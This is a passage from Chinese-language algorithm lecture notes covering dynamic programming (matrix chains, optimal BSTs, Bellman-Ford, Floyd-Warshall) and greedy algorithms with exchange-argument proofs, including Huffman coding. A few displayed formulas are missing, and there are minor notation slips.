- 如果第 \(i\) 个物体的重量 \(s_i\) 小于当前背包的容量 \(c\)，并且前 \(i-1\) 个物体在容量为 \(c−s_n\) 的条件下得到的最优解加上第 \(i\) 个物体的价值 \(v_i\) 大于前 \(i-1\) 个物体在容量为 \(c\) 的条件下得到的最优解，即 \(V_{i-1,c-s_n} > V_{i-1,c}\)，那么第 \(i\) 个物体就在最优解中
- 否则，就说明第 \(i\) 个物品不在最优解中，我们就直接考虑前 \(i-1\) 个物品在容量为 \(c\) 的条件下的最优解
降维
事实上，对于这种多维的背包问题，我们经常可以考虑这样一种优化策略：即有没有可能数组的维数可以下降，例如这里是不是一维数组就能帮我们做好所有的事情。
事实上如果不考虑解的重建是完全可以的（考虑解的重建可以参考后面矩阵乘法的方法，那样可能又要维护新的二维数组），因为事实上第 \(i\) 个物品对应的所有容量的解只依赖于第 \(i−1\) 个物品的所有容量的解，因此事实上我们的数组完全可以不用 \(i\) 这一维，每次循环对某个 \(i−1\)，算出所有容量的解，保存在只有容量这一个 index 的数组中，然后再算下一个 \(i\) 的所有容量的解覆盖掉前面的解。
但有一点需要注意，就是第 \(i\) 轮数组的 \(A[c]\) 会依赖于更小的 \(c\) 在 \(i−1\) 轮的解，所以如果 \(c\) 的遍历还是从小到大的，那么就可能提前把需要的 \(i−1\) 轮的解覆盖，所以我们对 \(c\) 应当从大到小遍历，这样就不会出现错误的覆盖。
矩阵乘法的计算顺序¶
矩阵乘法的计算顺序
给定 \(n\) 个矩阵 \(M_1, M_2, \cdots, M_n\)，我们要将它们相乘，并且希望找到一个最优的计算顺序，使得计算这 \(n\) 个矩阵的乘积所需的标量乘法次数最少。
最优子结构¶
我们考虑矩阵链相乘 \(M_1 M_2 \cdots M_n\)，每个矩阵的大小为 \(r_{i−1} \times r_i\)。记 $$ M_{ij} = M_i M_{i+1} \cdots M_j $$
对于这个问题，我们不能简单地依照前面的思路从最后一个矩阵可能的相乘方式的角度来划分最优解，因为这里的子问题的划分不再是线性的，而是一个树形结构。
我们可以自顶向下地考虑这个问题：对于一个完全没有任何划分的矩阵链乘法时，我们可以考虑寻找一个划分的中心 \(M_i\)，因为我们是自顶向下的思考，那么在之前的步骤中我们应当已经得到了所有的 \(M_{1i}\) 和 \(M_{i+1,n}\) 的最优乘法顺序。因此对于每一种可能的分解，总的最小时间应当等于 \(M_{1i}\) 和 \(M_{i+1,n}\) 的最小时间求和加上 \(M_{1i}\) 和 \(M_{i+1,n}\) 相乘所需的时间（即 \(r_0 r_i r_n\)），然后我们只需要从这 \(n−1\) 种可能的分解中选出开销最小的一个就可以了。
$$ m_{1n} = min\{m_{1i} + m_{i+1,n} + r_0 r_i r_n\} $$
其中 \(m_{ij}\) 表示 \(M_{ij}\) 的最优乘法时间。前两项代表左右子问题的最优解，最后一项代表从子问题最优解推出大问题最优解的花销。更具体的，我们有
其中第一条是 base case，第二条是一般情况下的递推式
上面的算法的时间复杂度是 \(O(n^3)\)，其中 \(n\) 是矩阵的个数。
解的重构¶
这一问题重构解的方法如果用和前面的问题一样简单直接的挖掘方法显然会比较耗时间，因为我们每次要比较很多种可能的情况才能重构出解，所以我们需要做一些优化，优化的方法也非常自然，实际上关键就是用一个二维数组记住每个子问题
对应的最优的分点 \(k\)，然后当我们算出总问题 \(m_{1n}\) 的最优解及其对应的最优分点后，我们再找左右两半子问题的最优分点，以此类推，用中序遍历的思想将分点输出即可，只需线性时间。
最优二叉搜索树¶
最优二叉搜索树
这一问题给定如下输入：给定一列单词 $ w_1, w_2, \cdots, w_n $（它们的顺序已经按字典序排列）和它们出现的固定的概率 $ p_1, p_2, \cdots, p_n $。问题是要以一种方法在一棵二叉查找树中安放这些单词使得总的期望查找时间最小。
在一棵二叉查找树中，每一次访问深度为 \(d\)（根的深度为 0）的元素所需要的比较次数是 \(d+1\)，因此如果每一个 \(w_i\) 被放在深度 \(d_i\) 上，那么我们希望将总的期望搜索开销 $ \sum_{i=1}^{N} p_i (1 + d_i) $ 极小化。
从 PPT 中可以看出，直接使用贪心算法或者构建一个 AVL 树不一定可以得到一个最优的解。类似于矩阵链乘法中，我们需要知道第一个分点在哪里才能构建后续的解，在这一问题中，我们需要知道最优的根结点在哪里才能划分问题，然后我们可以得到两个子问题，然后我们可以合并子问题的最优解得到最优解。
如果我们知道最优根节点 \(w_k\)，那么在整个问题的最优解中，由于事先已经按照字母序排好，左子树必然是 \(w_1 \cdots w_{k-1}\) 对应的最优二叉搜索树，右子树也必然是 \(w_{k+1} \cdots w_n\) 对应的最优二叉搜索树，因此我们可以得到递推关系 $$ c_{ij} = \sum_{k=i}^{j} p_k + \min\limits_{i \leqslant k \leqslant j} \{ c_{i,k-1} + c_{k+1,j} \}, \quad i \leqslant j $$ 其中 \(p_k\) 代表 \(w_k\) 的概率，\(c_{ij}\) 代表 \(w_i \cdots w_j\) 对应的最优解。
- 前面第一项的意义在于，因为我们把 \(w_k\) 当作新的根节点，除了加上根节点对应的概率 \(p_k\) 之外，左右子树的深度都增加了1，因此在搜索时就需要多搜索一次，我们还需要再把它们的概率都加上一次
- 不难知道，base case 是 \(c_{ii} = p_i\) 或者 \(c_{i,i-1} = 0\)。当我们采用不同的 base case 时就会有不同的递推式，做题时自己分析一遍就可以了

上面这一个算法的时间复杂度是 \(O(n^3)\) 的，但是通过一定的方法可以优化到 \(O(n^2)\) （我不会，就不写了）
最优二叉搜索树例子

最短路问题再讨论¶
我们对经典的单源（即我们只考虑一个顶点出发到任意其它顶点的距离）无负边最短路问题算法——Dijkstra 算法非常熟悉，但这一问题对于带负边的问题可能给不出正确的解。负边带来的更大的问题是可能出现负环，这样即使我们有一个能求出带负边的最短路的算法，但因为事实上的最短路应当在负环中无限循环直至负无穷，所以算法也会失效。


Bellman-Ford 算法¶
对于一般的图而言，因为具有线性结构，所以定义子结构并不是很容易的事情（所以加权独立集合考虑的是路径图，这样点就有线性的先后顺序，子结构很好定义）。于是我们需要考虑一些特别的子问题、子结构定义方式。
在 Bellman-Ford 算法中，子问题被巧妙地定义为：对于每个顶点 \(v\)，我们考虑从源点 \(s\) 到 \(v\) 的所有路径中，最多经过 \(k\) 条边的路径的最短路径长度。
这一子问题的定义是否是合理的，取决于我们能否用至多经过 \(k−1\) 条边的最短路径长度推到至多经过 \(k\) 条边的路径的最短路径（我们记为 \(P\)）的长度。显然地，我们的递推依赖于如下两种情况取最小值：
- \(P\) 还是只有 \(k−1\) 条甚至更少的边，那么直接继承子问题的解即可
-
\(P\) 有 \(k\) 条边。
设 \(P'\) 为 \(P\) 中前 \(k−1\) 条边，并且 \((w,v)\) 是其最后一次的跳跃，那么因为 \(P\) 是 \(s\) 到 \(v\) 的 \(k\) 条边的最短路径，所以 \(P'\) 也是 \(s\) 到 \(w\) 的 \(k−1\) 条边的最短路径，否则我们一定能找到一个更短的从 \(s\) 到 \(w\) 的路径 \(P''\)，那么 \(P''\) 接上 \((w,v)\) 就是比 \(P\) 更短的路径，与 \(P\) 是最优解矛盾。
因此我们递推时只需要考虑所有能一步到达 \(v\) 的顶点 \(w_1,\cdots ,w_m\)，然后找到出发点 \(s\) 到这些 \(w_i(i=1,\cdots ,m)\) 的最短路长度，再把它加上 \((w_i,v)\) 的长度就可以得到 \(m\) 条 \(s\) 到 \(v\) 的路径长度，然后取出这些长度的最小值即可。
我们记 \(D^k[s][v]\) 为从 \(s\) 到 \(v\) 的最多经过 \(k\) 条边的最短路径长度，整个图为 \(G=(V,E)\)，如果 \(a\) 到 \(b\) 有一条边，那么这条边的长度记为 \(l_{ab}\)，那么根据上面的讨论我们有递推式：
事实上我们有下一重要引理
Lemma
设起点为 \(s\)，如果对于某个 \(k \geqslant 0\)，对于所有目标顶点 \(v\) 都有 \(D^k[s][v] = D^{k+1}[s][v]\)，那么
- 对于每个 \(i \geqslant k\) 和任意的目标顶点 \(v\)，\(D^i[s][v] = D^k[s][v]\) 都成立
- 对于每个目标顶点 \(v\)，\(D^k[s][v]\) 就是 \(s\) 到 \(v\) 的最短路径长度
基于这一引理，我们可以得到如下的判断是否包含负环的定理
Theorem
输入图 \(G\) 不包含负环当且仅当 \(D^n[s][v] = D^{n+1}[s][v]\) 对所有的目标顶点 \(v\) 都成立。其中 \(n\) 是图 \(G\) 的顶点数。
如果需要重构最短路径，我们可以存下每次取 min 的时候距离最小的那个点，最后做个 traceback 即可，并且最短路径的子路径也是最短路径。以这一重建过程只需要一次遍历就可以得到所有顶点的最短路径了。
我们设输入图的顶点数为 \(n\)，边数为 \(m\)，那么 Bellman-Ford 算法的时间复杂度是 \(O(nm)\)。
Floyd-Warshall 算法¶
所有点对之间的最短路
上面我们通过 Bellman-Ford 算法解决了单源最短路问题，并且能够找出图中是否存在负环。但是如果我们需要解决所有点对之间的最短路问题，最简单的想法就是调用 \(n\) 次 Bellman-Ford 算法，这样的时间复杂度是 \(O(n^2m)\)。
而由于在稠密图上，边的数量 \(m\) 的数量级是 \(n^2\) 的，那么我们的时间消耗就会是四次方级别的，这显然是不可接受的。
Floyd-Warshall 算法定义的子问题更加巧妙：
我们需要给图上的每个顶点一个编号：\(1, 2,\cdots ,n\)，我们保持记号 \(D^k[i][j]\)，但现在它的含义变成了：从点 \(i\) 出发到 \(j\) 的，只使用 \(1,2,\cdots ,k\) 作为内部顶点的（内部顶点就是除起点和终点外的其它点，即从 \(i\) 到 \(j\) 中间只能经过这些点），不包含环的最短路径长度。
- 若 \(k\) 不是 \(P\) 的内部顶点，那么最好的解就是继承 \(D^{k-1}[i][j]\)；
- 若 \(k\) 是 \(P\) 的内部顶点，那么我们可以把 \(P\) 分成两段：\(i \to k\) 和 \(k \to j\)，如图所示。即 \(P\) 的总长度就等于这两段的长度之和，即 \(D^k[i][j] = D^{k−1}[i][k] + D^{k−1}[k][j]\)

有一个值得考虑的问题是，有没有可能这两段路径纠缠起来形成一个环？如果形成负环，我们无需关心这一情况，因为我们最终会检测出来；如果是正环，那么我们能画出一个不经过 \(k\) 的更短的路径，所以这种情况也不会在最终的最短路径中出现。因此下述递推式是合理的：
接下来的问题和 Bellman-Ford 算法一样，我们需要考虑如何判断是否存在负环
Theorem
图 \(G\) 包含负环当且仅当存在一个顶点 \(v\)，使得 \(D^n[v][v] < 0\)。
基于以上讨论我们可以写出 Floyd-Warshall 算法的伪代码。最 naive 的方式就是用三维数组 \(D[k][i][j]\) 表达 \(D^k[i][j]\) 的含义，那么我们首先要讨论 base case，因为我们的递推是 \(k\) 逐渐增大的过程，所以 base case 就是 \(k = 0\) 的情况，接下来我们用三层循环构建全部的解即可。
因此时间复杂度是 \(O(n^3)\)，在稠密图中，它的表现要比调用 \(n\) 次 Bellman-Ford 算法更好。
降维
PPT 中给出了一种降维的方法：其实 \(k\) 没有必要出现在下标，我们只需要在增大 \(k\) 的过程中更新 \(i\) 和 \(j\) 之间的最短路长度即可，因为随着 \(k\) 增大最短路一定是递减的，对所有的 \(k\) 维护一个值足矣。
至于重建最短路径，我们在循环的时候不断更新每对顶点 \(i\) 和 \(j\) 形成最短路径时得到的最优的 \(k\)，因为这样最后一次 \(k\) 的更新就对应于 \(i\) 和 \(j\) 之间最短路的必经之路。然后我们可以倒过来寻找 \(i\) 到 \(k\) 和 \(k\) 到 \(j\) 的最短路径（也是中序遍历的思想，或许也是某种程度的分治？），这样就可以重建最短路径了。
A存储的是图的邻接矩阵，我们用数组D来求出所有点对的最短路径
贪心算法¶
约 5152 个字 6 张图片 预计阅读时间 21 分钟
贪心算法保证做出的每一步选择在当前情况下都是局部最优的（当然对于最优的定义可能有多种多样）。如果我们能证明这些局部最优能够构造出全局最优，那么贪心算法就是正确的。
活动选择问题¶
问题描述
- 给定一个活动集合 \(S = \{a_1, a_2, \ldots, a_n\}\)，其中每个活动 \(a_i\) 都有一个开始时间 \(s_i\) 和结束时间 \(f_i\)，且 \(0 \leqslant s_i < f_i < \infty\)。如果活动 \(a_i\) 和 \(a_j\) 满足 \(f_i \leqslant s_j\) 或 \(f_j \leqslant s_i\)，则称活动 \(a_i\) 和 \(a_j\) 是兼容的（即一个活动会在另一个活动开始之前结束，二者时间不会重合）。
活动选择问题就是要找到一个最大的兼容活动子集，即这个子集中所有活动相互兼容，并且活动的数量最大。
动态规划的解决方法
我们可以设计出两种动态规划的递推式来解决这一问题：
-
设 \(S_{ij}\) 表示活动 \(a_i\) 和 \(a_j\) 之间的最大兼容活动集合（开始时间在 \(a_i\) 结束之后，结束时间在 \(a_j\) 开始之前），其大小记为 \(c_{ij}\)，那么我们有 $$ c_{ij} = \max \{ c_{ik} + c_{kj} + 1 \mid f_i \leqslant s_k < f_k \leqslant s_j \} $$
这一解法的思想更接近矩阵乘法顺序问题，我们会选择中间的最优解然后分为左右子问题递归
-
设 \(S_i\) 表示活动 \(a_1, a_2, \ldots, a_i\) 的最大兼容活动集合，其大小记为 \(c_i\)，那么我们有 $$ c_i = \max \{ c_{i-1}, c_{k(i)} + 1 \} $$
其中 \(k(i)\) 表示在 \(1 \leqslant k \leqslant i\) 中，使得 \(f_k \leqslant s_i\) 且 \(c_k\) 最大的 \(k\)，即不与 \(a_i\) 冲突的最晚结束的活动。这一思想更接近背包问题的思路，即我们考虑最后一个是否在解中，然后分成在或不在两种情况考虑。
- 上面第一种解法的时间复杂度为 \(O(n^3)\)，但是可以利用一些方法优化到 \(O(n^2)\)；第二种解法更为便捷，时间复杂度为 \(O(n^2)\)。
我们希望有一个更高效的算法，因此我们还需要新的思路，即使用贪心的思路，因为很多时候贪心只需要一个遍历即可确定出答案，所以时间上有很大的优势。
PPT 上给出了几种错误的贪心想法，这也表明了贪心并不是那么容易就能找到正确的贪心策略。我们需要不断地举反例尝试否定自己的猜想，如果觉得自己的猜想的逻辑足够严密就可以开始尝试证明。
我们可以将各个活动按照结束时间进行排序，然后在保证不与已经选择的活动冲突的条件下，从前到后去看，选择结束时间最早的活动。这一个想法是很自然的，因为活动结束得越早，那么就越能给后面的活动安排留出余地，因此也顺理成章能让更多活动都安排进来。
下面我们需要从两个方面来证明这个贪心策略是正确的：贪心选择性质与最优子结构性质。
活动选择问题的贪心选择性质
- 考虑任意非空子问题 \(S_k\)，令 \(a_m\) 是 \(S_k\) 中结束时间最早的活动，则 \(a_m\) 在 \(S_k\) 的某个最大兼容活动子集中。
证明：
令 \(A_k\) 是 \(S_k\) 的一个最大兼容活动子集，且 \(a_j\) 是 \(A_k\) 中结束时间最早的活动。
- 若 \(a_j = a_m\)，则已经证明 \(a_m\) 在 \(S_k\) 的某个最大兼容活动子集中。
- 若 \(a_j \neq a_m\)，令集合 \(A'_k = A_k−\{ a_j \}\cup \{a_m \}\)，即把 \(A_k\) 中的 \(a_j\) 替换为 \(a_m\)。很显然的，\(A'_k\) 中的活动是不相交的：因为 \(A_k\) 中的活动是不相交的，而 \(a_m\) 是 \(S_k\) 中结束时间最早的活动，即 \(f_m \leqslant f_j\)，所以 \(a_m\) 不可能和 \(A_k\) 后面的活动冲突。由于 \(|A_k|=|A'_k|\)，因此得出结论 \(A''_k\) 也是 \(S_k\) 的一个最大兼容活动子集，且它包含 \(a_m\)。
于是我们就证明了 \(a_m\) 一定在 \(S_k\) 的某个最大兼容活动子集中。
这一证明思想我们称为“交换参数法”，即我们可以假设存在一个最优选择，其中某个元素可能不在我们的贪心选择中，然后通过交换贪心选择和最优选择的元素来构造一个可行解，而这个可行解由于其中一个元素被替换为了贪心选择的元素，它不可能变得更差，因此这个构造出来的可行解一定也是一个最优解。
活动选择问题的最优子结构
- 在活动选择问题中，用贪心策略选择 \(a_1\) 之后得到子问题 \(S_1\)，那么将 \(a_1\) 和子问题 \(S_1\) 的最优解合并，一定可以得到原问题的一个最优解。
证明：
使用反证法：假设 \(a_1\) 和子问题 \(S_1\) 的最优解 \(C_1\) 合并得到的解 \(C\)，不是原问题的一个最优解，同时 \(C'\) 是原问题的一个最优解，那么我们一定有 \(|C'| > |C|\)。
根据贪心选择性质我们知道如果我们用 \(a_1\) 替换掉 \(C'\) 中的第一个活动，那么我们得到的解一定不会比 \(C'\) 差。因此我们可以得到一个新的解 \(C''\)，并且 \(|C''| \geqslant |C'| > |C|\)。
这时候如果我们把 \(C''\) 除去 \(a_1\)，剩余部分 \(C''_1\) 也是子问题 \(S_1\) 的一个可行解。由于 \(|C''| > |C|\)，所以 \(|C''_1| > |C_1|\)，这与 \(C_1\) 是子问题 \(S_1\) 的最优解矛盾。因此将 \(a_1\) 和子问题 \(S_1\) 的最优解合并得到的解，一定是原问题的一个最优解。
这样我们就证明了我们刚刚做出得贪心选择一定可以得到一个最优解，我们的贪心策略是正确的。对称地，我们也可以将所有活动按照开始时间进行排列，并且每一次都从后往前看，选择不与先前活动冲突的开始最晚的活动，这样也是一个正确的贪心策略。
对于这样一个问题，很显然我们利用贪心策略选择活动的时间复杂度为 \(O(n)\)，因为我们只需要对所有活动进行一次遍历，因此解决整个问题的时间复杂度主要取决于把这些任务排序的时间复杂度，通常为 \(O(n\log n)\)。
活动选择问题的变体
-
加权活动选择问题：现在每一个活动 \(a_i\) 都有一个权重 \(w_i\)，我们希望找到一个总权重最大的兼容活动子集。
事实上，我们很容易举出反例说明一般的贪心算法失效，所以我们现在可以转向最开头给出的动态规划算法，只是所有的加 1 应当改为加权重。
-
区间调度问题：我们现在的问题不再是最大化兼容集合的大小或者权重，而是所有活动都必须举办，考虑将所有活动分配到最少的教室中，使得每个教室内的活动不冲突。
我们同样可以使用贪心算法来解决这个问题：将所有活动按照开始时间排序，设置初始教室数量为1，然后从前往后遍历。每次选择一个活动时，我们都看当前所有的教室中的活动有没有不与它冲突的（即当一个活动需要开始时，查看当前是否有空着的教室），如果有就直接放进对应的教室，如果所有教室都和这个活动冲突，就新开一个教室。

从图（a）中我们可以看到同一时间至多有三个活动同时举办，因此我们需要至少三个教室；而假如我们须要四个教室，就说明某时刻有四个活动同时进行，这是不可能的。因此最终的结果是需要三个教室。
从图（b）中我们利用贪心算法来解决这个问题，首先我们发现 a、b、c 三个活动同时开始，所以开始三个教室，然后把 d、e 分别放入不会发生冲突的 c、a 教室中，以此类推，最终就使用了三个教室来解决了这个问题
调度问题¶
问题描述
- 假设我们现在有 \(n\) 个任务，每个任务 \(i\) 都有一个正的完成需要的时间 \(l_i\) 和一个权重 \(w_i\)。假定我们只能按一定顺序依次执行这些任务，不能并行。
很显然的，我们有 \(n!\) 种调度方法，我们记 \(\sigma\) 为某一种调度，那么在调度 \(\sigma\) 中，任务 \(i\) 的对应的完成时间 \(C_i(\sigma)\) 就是 \(\sigma\) 中在 \(i\) 之前的所有任务长度之和加上 \(i\) 本身的长度。
换句话说，在一种调度中，一个任务的完成时间就是这个任务从整个流程开始到它自己被执行完毕的总时间。我们的目标是最小化加权完成时间之和： $$ T=\min\sum_{i=1}^{n} w_i \cdot C_i(\sigma) $$
我们要设计一个贪心算法来解决这个问题，很显然地，我们希望优先选择做权重大、时间短的任务，因此就很自然地得到了两种可能的贪心策略：
- 计算每个任务 \(i\) 的 \(w_i − l_i\)，按从大到小降序调度任务
- 计算每个任务 \(i\) 的 \(w_i / l_i\)，按从大到小降序调度任务
我们考虑一个例子：有两个任务，\(l_1=5, l_2=2, w_1=3, w_2=1\)，两种方法会返回不同的结果，而第二种才能返回最优解。但这只能说明第一种策略是错误的，第二种策略的正确性还需要证明。
调度问题的贪心选择性质
- 令 \(i\) 是当前 \(w_i / l_i\) 最大的任务，则在当前问题下，必一定存在一个将 \(i\) 排在首位的最优调度方式。
证明：
我们仍然使用“交换参数法”：假设有一个最优解 \(C\)，如果它的第一个任务是 \(i\)，证明结束。如果不是，我们考虑将 \(i\) 不断与前一个任务交换，直到换到第一个位置的过程。
假设现在排在 \(i\) 前面一位的任务是 \(j\) ，我们知道一定有 $$ \frac{w_i}{l_i} \geqslant \frac{w_j}{l_j} $$ 又因为所有数都是正数，将它们移项就得到 \(w_i l_j - w_j l_i \geqslant 0\)。
不难看出，在 \(i\) 和 \(j\) 交换前后，其它的任务的加权时间完全没有变化，变化仅在于 \(i\) 和 \(j\) 上。设在 \(i\) 前面的总时间为 \(t\)，则交换前 \(i\) 和 \(j\) 的加权时间和为
$$ t_1 = w_j (t + l_j) + w_i (t + l_j + l_i) $$
交换后为
$$ t_2 = w_i (t + l_i) + w_j (t + l_i + l_j) $$
二者作差化简有
$$ t_1 - t_2 = w_i l_j - w_j l_i \geqslant 0 $$
因此我们发现，把 \(i\) 向前交换时，加权时间和一定不会变大，故仍然保证新的解是最优解。那么我们就可以不断把 \(i\) 往前换，直到它在第一个位置，这样就证明了贪心选择性质。
调度问题的最优子结构
- 在调度问题 \(S\) 中，我们用贪心策略选出 \(w_i / l_i\) 最大的 \(i\) 对应的任务后，剩下的子问题 \(S_1\)（即在除去 \(i\) 的任务集合中寻找一个最小化加权完成时间之和的解）的最优解 \(C_1\) 和 \(i\) 结合后一定构成了原问题的一个最优解 \(C\)。
证明：
证明思路和活动选择问题几乎完全一致，我们使用反证法来快速证明：
如果 \(C\) 不是最优解，那么一定存在一个最优解 \(C'\)，它对应的加权完成时间小于 \(C\) 的加权完成时间，\(T'< T\)。
根据贪心选择性质，如果我们把 \(C'\) 中的 \(i\) 不断通过相邻交换换到第一个位置，得到的解 \(C''\) 一定不会变差，\(T'' \leqslant T'\)。于是 \(C''\) 在选择了 \(i\) 之后，剩下的选择实际上也构成了 \(S_1\) 的一个可行解。
由于 \(T' < T\)，这表明 \(C''\) 中对应的 \(S_1\) 的解 \(C''_1\) 必定比 \(C_1\) 更好，但我们知道 \(C_1\) 是最优解，因此得到矛盾。所以 \(C_1\) 和 \(i\) 一起一定构成了原问题的一个最优解 \(C\)。
综上，以反证法，我们最终得以验证了问题的最优解可以通过贪心 + 最优子结构的方式得到。同时我们也很容易发现，这一问题的时间复杂度最耗时的部分也在排序上，不再重复。
最小化最大延时
设有 \(n\) 个任务，每个任务 \(j\) 具有一个完成需要的时间 \(t_j\)，以及截止日期 \(d_j\)。我们只能逐个完成这些任务，不能并行。如果有任务不能在 DDL 之前完成，我们定义延迟时间 \(l_j\) 为其完成的时间减去截止日期 \(d_j\)，如果没有超时则延迟定义为 0。我们的目标是最小化所有任务的最大延迟。

在上面的例子中，三个任务长度分别为 1、2、3，截止日期分别为 2、4、6，按如图方式排序，所有任务都能在截止前完成。
而对于一般性的最小化最大延时问题，我们很容易想到下面两种贪心策略
-
按照每个任务需要花费的时间排序，先完成用时短的任务。
这种策略显然是错误的，因为用时短的任务很可能截止日期很远。例如我们考虑两个任务，一个需要 1 天，截止日期 100 天后；另一个需要 10 天，截止日期10天后，那么按照这里的调度方式显然不对。
-
按照 \(d_j-t_j\) 从小到大排序，先完成 \(d_j-t_j\) 比较小的任务，即先完成冗余时间量最短的任务。
这似乎看起来正确，但是实际上也是错误的。例如我们考虑两个任务，一个需要 1 天，截止日期 2 天后；另一个需要 10 天，截止日期 10 天后，那么按照这里的调度方式也不对。
事实上上面两种思路出现了一个矛盾：第一个表明完成时间 \(t_j\) 越短越应该先完成，看起来很合理；第二个 \(t_j\) 越短反而冗余时间变大，应该晚完成。这让我们进入了一个尴尬的局面：我们到底该如何考虑 \(t_j\) 呢？
实际上正确的答案是不考虑 \(t_j\)，我们只需要将各个任务按照截止日期 \(d_j\) 从小到大排序，然后依次完成即可。这样的策略是正确的，因为我们只需要保证每个任务在截止日期前完成即可，而不需要考虑完成时间。这样的策略也是符合贪心选择性质和最优子结构的，证明也可以利用“交换参数法”，这里就不再说明了
哈夫曼编码¶
哈夫曼编码希望找到一个字母表的期望长度最小（依据字母出现频率）的前缀编码，在之前最优二叉搜索树的讨论中我们似乎有一个类似的目标，但那里我们是希望最小化搜索的期望时间，并没有前缀编码的需求。事实上，哈夫曼编码具有非常强的信息论背景。
信息熵
对于一个离散型随机变量\(X\)，其信息熵定义为 $$ H(X) = -\sum_{i=1}^{n} p(x_i) \log_2 p(x_i) $$ 其中 \(p(x_i)\) 表示 \(X\) 取值为 \(x_i\) 的概率。
在平均意义下，信息熵的物理意义是对于一个随机变量\(X\)，我们需要多少比特的信息来描述它。
Example
-
考虑一个服从均匀分布且有 32 种可能取值的随机变量 \(X\)。为了确定一个结果，需要一个能容纳 32 个不同值的标识，因此用 5 个比特足矣。而其信息熵为 $$ H(X) = -\sum_{i=1}^{32} \frac{1}{32} \log_2 \frac{1}{32} = 5 $$ 这恰好就是需要的比特数量。
-
有 8 匹马参加的一场赛马比赛，它们的获胜概率分别为
\[ \left\{ \frac{1}{2}, \frac{1}{4}, \frac{1}{8}, \frac{1}{16}, \frac{1}{64}, \frac{1}{64}, \frac{1}{64}, \frac{1}{64} \right\} \]假定我们要把哪匹马会赢的信息告诉给别人，其中一个策略是给每一匹马都设定一个等长度的编号，这样对于任何一匹马都需要 3 个比特。
但由于概率不是均等的，明智的方法是对概率大的马用更短的编码，对概率小的马用更长的编码。例如使用以下编码：
0,10,110,1110,111100,111101,111110,111111，这样在期望意义下，平均每匹马需要 2 个比特，比使用等长编码的比特数更短。
算法描述¶
我们通过二叉树来构建编码树，所有需要表示的信息都处于叶结点上，非叶子结点不储存任何信息。从根节点到叶结点的所有路径上，左分支表示 0，右分支表示 1。
这样的编码树不仅在期望情况下能得到最短的平均编码，而且是满足前缀编码的的要求的，即任何一个字符的编码都不是另一个字符编码的前缀（这在离散数学中证明过了），因此当给定一串有多个字符组成的编码时，我们不会因不知道该如何把这个编码分段而产生歧义。

例如在上图的这颗编码树中，a、u、x、z的编码分别为00、01、10、11。

把根结点的深度记为0，那么我们就发现，对于一个字符 \(c\)，它的编码长度就是它在编码树中的深度，于是我们的目标就转换成了找到一个编码树，在考虑每个字符出现的概率的情况下，最小化所有字符的深度。
记某个字符 \(x_i\) 的深度为 \(d_i\)，出现的概率为 \(f_i\)，那么我们的目标就是找到一种构造编码树的方式，实现下面最小化的目标 $$ \min \sum_{i=1}^{n} f_i \cdot d_i $$
对于字符串aaaxuaxz来说，最佳的编码方式如右图所示，此时的编码长度为 \(1 \times 4 + 2 \times 2 + 3 \times 1 + 3 \times 1 = 14\)，小于刚刚的等长编码的长度 \(2 \times 4 + 2 \times 1 + 2 \times 2 + 2 \times 1 = 16\)。
构造哈夫曼编码树
- 给定一组待编码的字符，每个字符都有一个出现频率（或者权重）。
- 根据字符的频率，将所有字符放入一个优先队列（最小堆）中，堆中每一个结点都是一个字符，结点的值是字符的频率。
-
从优先队列中取出两个频率最小的字符，构造一个新的父结点，其频率为两个字符的频率之和。这个父结点的左右孩子分别是这两个字符，然后将这个新结点重新插入最小堆中。
通常来说，频率更小的孩子作为左孩子，频率更大的孩子作为右孩子，当然这种方法不是一定的。
-
重复步骤 3，直到最小堆中只剩下一个结点，这个结点就是哈夫曼编码树的根结点。
- 生成编码，从根结点出发到每一个叶结点，给左分支分配
0，给右分支分配1，每个字符的哈夫曼编码就是从根结点到它对应的叶结点的路径上的所有0和1的依次组合。
Huffman 编码的正确性¶
哈夫曼编码的贪心选择性质
- \(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\).令 \(x\) 和 \(y\) 是 \(C\) 中频率最低的两个字符。那么存在 \(C\) 的一个最优前缀码，\(x\) 和 \(y\) 的编码长度相同，且只有最后一个二进制位不同（即在编码二叉树中，它们是兄弟节点）。

我们仍然可以使用交换参数法来证明新的树不会比原来的树更差，因此如果原来的树是最优的，那么新的树也一定是最优的。
哈夫曼编码的最优子结构性质
-
\(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\)。令 \(x\) 和 \(y\)是 \(C\) 中频率最低的两个字符。令 \(C'\) 为 \(C\) 去掉字符 \(x\) 和 \(y\)，并加入一个新字符 \(z\) 后的字母表。
我们给 \(C'\) 也定义频率集合，不同之处只是 \(z.freq = x.freq + y.freq\)。令 \(T'\) 为 \(C'\) 的任意一个最优前缀码树，那么我们可以将 \(T'\) 中叶结点 \(z\) 替换为一个以 \(x\) 和 \(y\) 为孩子的内部结点得到一个 \(C\) 的一个最优前缀码树 \(T\)。

依然是使用反证法证明。记 \(B(T)\) 为树 \(T\) 的代价，即所有字母的期望编码长度（PPT 上的 cost）。我们很容易得到 $$ B(T) = B(T') + x.freq + y.freq $$ 因为 \(T'\) 就相当于把 \(T\) 中的 \(x,y\) 上移一层。
假设 \(T\) 不是 \(C\) 的最优前缀编码树，那么存在一个更优解 \(T''\)，使得 \(B(T'') < B(T)\)。根据前面的引理，我们可以将 \(T''\) 中 \(x\) 和 \(y\) 和它们的父结点替换为 \(z\)，得到一个新的树 \(T'''\)，其中 \(z.freq = x.freq + y.freq\)。那么我们有 $$ B(T''') = B(T'') - x.freq - y.freq < B(T) - x.freq - y.freq = B(T') $$ 这与 \(T'\) 是最优解矛盾，因此我们的假设是错误的，\(T\) 必定是 \(C\) 的最优前缀编码树，证毕。
贪心算法的讨论¶
贪心算法的范式¶
贪心算法通过做出一系列选择来求出问题的最优解。在每个决策点，它做出在当时看来最佳的选择。这种启发式策略并不保证总能找到最优解，但对有些问题确实有效，如活动选择问题。
一般地，我们可以按如下步骤设计贪心算法：
- 将最优化问题转化为这样的形式：对其做出一次选择后，只剩下一个子问题需要求解
- 证明做出贪心选择后，原问题总是存在最优解，即贪心选择总是安全的
- 证明做出贪心选择后，剩余的子问题满足性质：其最优解与贪心选择组合即可得到原问题的最优解，这样就得到了最优子结构
贪心算法的证明¶
之前涉及的“交换参数法”并不是唯一的证明贪心选择正确性的方法，虽然“交换参数法”是对于很大一部分问题比较直观的一种证明手段，但贪心这一思想实在是应用太广泛，所以我们无法保证这种证明方法对所有问题都适用。
但对于大部分问题贪心算法的证明而言，贪心选择性质和最优子结构是两个关键要素
-
